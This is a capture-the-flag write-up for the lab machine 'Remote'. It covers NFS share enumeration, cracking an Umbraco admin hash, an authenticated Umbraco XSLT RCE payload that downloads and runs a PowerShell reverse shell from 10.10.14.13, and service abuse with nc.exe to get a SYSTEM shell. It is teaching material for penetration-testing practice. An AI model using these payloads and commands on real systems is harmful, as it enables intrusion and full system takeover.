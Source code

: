 # Remote

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.150
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 04:27 EDT
Warning: 10.129.227.150 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.150
Host is up (0.035s latency).
Not shown: 65026 closed tcp ports (conn-refused), 494 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
```

### NFS

Network File System was publicly available on port 2049, and this is not a port I see often. This service can have very interesting files and permissions, so let's enumerate it via `showmount`.&#x20;

```
$ showmount -e 10.129.227.150
Export list for 10.129.227.150:
/site_backups (everyone)
```

We can mount onto this and view the files inside:

```
$ sudo mount -t nfs 10.129.227.150:/site_backups /mnt/
$ ls -la
total 159
drwx------  2 nobody 4294967294  4096 Feb 23  2020 .
drwxr-xr-x 19 root   root       36864 Apr 22 05:16 ..
drwx------  2 nobody 4294967294    64 Feb 20  2020 App_Browsers
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Data
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Plugins
drwx------  2 nobody 4294967294    64 Feb 20  2020 aspnet_client
drwx------  2 nobody 4294967294 49152 Feb 20  2020 bin
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Config
drwx------  2 nobody 4294967294    64 Feb 20  2020 css
-rwx------  1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------  1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Media
drwx------  2 nobody 4294967294    64 Feb 20  2020 scripts
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Umbraco
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Umbraco_Client
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Views
-rwx------  1 nobody 4294967294 28539 Feb 20  2020 Web.config
```

We can go through each of the folders, and we would find an SDF file for Umbraco within `App_Data`, which normally contains hashes.

```
$ ls    
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
```

If we use `strings` on it, we would find a load of input. At the top, it seems that there are SHA1 hashes present:

{% code overflow="wrap" %}
```
$ strings Umbraco.sdf
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```
{% endcode %}

The hash can be cracked via `john`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)     
1g 0:00:00:00 DONE (2023-05-02 04:34) 1.538g/s 15113Kp/s 15113Kc/s 15113KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

So now we have some credentials at least.

### Umbraco RCE

There were hints that Umbraco was used to host the sites, so let's view port 80. It seems to be a blog page:

<figure><img src="../../../.gitbook/assets/image (28) (2) (5).png" alt=""><figcaption></figcaption></figure>

The login page for the website is located at the `/Umbraco` directory. We can login with the credentials and email we found earlier.

<figure><img src="../../../.gitbook/assets/image (44) (7).png" alt=""><figcaption></figcaption></figure>

After logging in, we can enumerate the version that it is running.

<figure><img src="../../../.gitbook/assets/image (30) (2) (4).png" alt=""><figcaption></figcaption></figure>

This version of Umbraco is vulnerable to an Authenticated RCE exploit:

```
$ searchsploit umbraco  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)        | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution | aspx/webapps/46153.py
```

We can use the PoC for the first one, and edit it for this machine.

```python
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "-c iex (iwr http://10.10.14.13/rev.ps1 -usebasicparsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.129.227.150";
```

Take note of the `cmd` and `FileName` parameter in the `payload` variable. In my case I just used Powershell to download and execute a reverse shell script.

<figure><img src="../../../.gitbook/assets/image (35) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PowerUp

We can first enumerate our privileges as the user:

```
PS C:\windows\tasks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disable
```

We see that we have a ton of privileges, and most importantly SeImpersonatePrivilege is enabled. This means that we probably have some cotnrol over services and this could be used for PE. I used `PowerUp.ps1` to exploit this system.&#x20;

```
PS C:\windows\tasks> wget 10.10.14.13:8000/powerup.ps1 -O powerup.ps1
PS C:\windows\tasks> . .\powerup.ps1
PS C:\windows\tasks> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1580
ProcessId   : 4156
Name        : 4156
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```

We have control over the `UsoSvc` service. With this, we can run commands as the SYSTEM user. All we need to do is download `nc.exe` to the machine and run it as the administrator.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">wget 10.10.14.13/nc64.exe -O nc.exe
<strong>Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command 'C:\Windows\Tasks\nc.exe 10.10.14.13 4444 -e cmd.exe'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (10) (4) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!
